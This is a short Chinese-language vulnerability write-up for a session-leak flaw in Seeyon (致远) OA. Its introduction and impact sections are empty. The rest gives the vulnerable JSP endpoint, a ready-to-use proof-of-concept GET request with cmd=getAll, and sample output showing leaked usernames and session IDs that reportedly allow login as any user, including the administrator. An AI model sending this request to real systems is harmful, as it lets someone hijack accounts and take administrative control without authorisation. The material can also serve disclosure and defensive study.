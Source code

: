 ```yaml
---
title: 致远OA Session泄漏漏洞
id: zhfly3345
---
```


# 致远OA Session泄漏漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/ext/https/getSessionList.jsp 
```

##### 漏洞详情:

```
当cmd参数为getAll时，便可获取到所有用户的SessionID利用泄露的SessionID即可登录该用户，包括管理员 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/ext/https/getSessionList.jsp?cmd=getAll 
```

##### 回显内容

```
weiph 9EA4F8832FA1C9BA99E3D13E2F01CAF7zhaozy F9244E7F1B8C39BB8919FAE8E19ED16A 
```